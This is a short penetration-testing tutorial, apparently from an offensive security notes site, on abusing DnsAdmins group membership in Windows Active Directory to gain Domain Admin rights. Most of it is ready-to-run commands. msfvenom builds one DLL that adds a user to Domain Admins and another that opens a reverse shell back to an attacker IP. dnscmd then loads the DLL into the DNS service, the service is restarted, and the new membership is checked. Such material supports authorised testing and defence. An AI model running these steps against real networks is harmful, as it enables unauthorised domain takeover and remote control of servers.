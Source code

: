 # DnsAdmins

Members of the [**DnsAdmins**](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) group possess access to DNS information on the network, which can be exploited for privilege escalation. By leveraging this group’s permissions, we can create a malicious DLL that adds a user to the **Domain Admins** group or provides a reverse shell.

#### **Generating Malicious DLLs with msfvenom**

1.  **Creating a DLL to Add a User to the Domain Admins Group**: To create a DLL that executes a command to add a user to the **Domain Admins** group, use the following command:

    ```bash
    msfvenom -p windows/x64/exec cmd='net group "Domain Admins" netadm /add /domain' -f dll -o adduser.dll
    ```

    This command creates a DLL named `adduser.dll`, which will execute the command to add the specified user (`netadm`) to the **Domain Admins** group.
2.  **Creating a DLL for a Reverse Shell**: To generate a DLL that provides a reverse shell, use the following command:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.01 LPORT=5555 -f dll > dbs.dll
    ```

    This command creates a DLL named `dbs.dll` that will establish a reverse shell connection back to the attacker's machine.

#### **Loading the DLL into the DNS Service**

After generating the desired DLL, transfer it to the target machine. Next, load the DLL into the DNS service by executing the following command:

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

This command configures the DNS server to load the `adduser.dll` the next time the service starts.

#### **Starting the DNS Service**

To execute the DLL, the DNS service needs to be restarted. Run the following commands:

```powershell
sc.exe stop dns
sc.exe start dns
```

If you lack the necessary permissions to start or stop the DNS service, you may need to wait until the service is restarted naturally, which could occur due to maintenance or other scheduled tasks.

#### **Verification**

To confirm that the user has been successfully added to the **Domain Admins** group, execute the following command:

```powershell
net group "Domain Admins" /dom
```

This command will display the members of the **Domain Admins** group, allowing you to verify that the new user (`netadm`) has been added successfully.
